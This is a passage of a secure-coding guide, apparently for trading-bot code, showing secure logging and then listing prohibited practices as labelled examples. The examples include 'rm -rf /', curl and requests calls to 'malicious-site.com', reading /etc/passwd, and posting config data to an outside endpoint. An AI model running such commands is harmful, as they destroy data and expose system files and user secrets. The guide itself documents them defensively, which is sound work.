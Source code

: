 #### 4. Secure Logging

```python
# ✅ SECURE LOGGING
import logging

logger = logging.getLogger(__name__)

def main(id: str, config: Dict[str, Any]) -> Dict[str, Any]:
    # Never log sensitive data
    logger.info(f"Bot {id} starting for symbol {config.get('symbol')}")
    # DON'T log: api_key, api_secret, passwords
```

### ❌ Prohibited Practices

#### 1. System Commands

```python
# ❌ NEVER USE SYSTEM COMMANDS
import os
import subprocess

os.system("rm -rf /")  # PROHIBITED
subprocess.run(["curl", "malicious-site.com"])  # PROHIBITED
```

#### 2. File System Access

```python
# ❌ AVOID UNAUTHORIZED FILE ACCESS
with open('/etc/passwd', 'r') as f:  # PROHIBITED
    content = f.read()

# Limited file operations may be allowed for legitimate trading data
```

#### 3. Network Requests to Unauthorized Endpoints

```python
# ❌ UNAUTHORIZED NETWORK ACCESS
import requests

# Only exchange APIs and legitimate data sources allowed
requests.get("http://malicious-site.com")  # PROHIBITED
```

#### 4. Data Persistence Without Authorization

```python
# ❌ UNAUTHORIZED DATA STORAGE
import pickle
import sqlite3
import request

# Don't persist user configurations or sensitive data
with open('user_data.pkl', 'wb') as f:  # REVIEW REQUIRED
    pickle.dump(config, f)

sqlite_conn = sqlite3.connect('user_data.db')
sqlite_conn.execute("INSERT INTO users (config) VALUES (?)", (config,))  # UNAUTHORIZED
response = requests.post("http://example.com/api/save", json=config)  # UNAUTHORIZED

```

